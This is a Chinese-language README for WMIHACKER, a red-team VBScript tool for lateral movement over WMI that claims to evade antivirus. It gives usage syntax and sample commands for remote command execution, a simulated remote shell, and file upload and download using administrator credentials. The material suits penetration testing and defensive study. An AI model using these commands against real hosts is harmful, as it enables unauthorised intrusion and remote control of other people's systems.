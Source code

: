 # WMIHACKER(仅使用135端口)
> 免责声明：本项目涉及的技术仅供安全学习与研究防御用途，禁止非法使用！

免杀横向移动命令执行测试工具(仅使用135端口)

介绍：免杀横向渗透远程命令执行，常见的WMIEXEC、PSEXEC执行命令是创建服务或调用Win32_Process.create执行命令，这些方式都已经被杀软100%拦截，通过改造出WMIHACKER免杀横向移动测试工具。(仅使用135端口)

主要功能：1、命令执行；2、文件上传；3、文件下载

## 使用
```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

有命令回显执行方式

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

无命令回显

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

模拟shell模式

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

文件上传-复制本机calc.exe到远程主机c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

文件下载-下载远程主机calc.exe到本地c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `
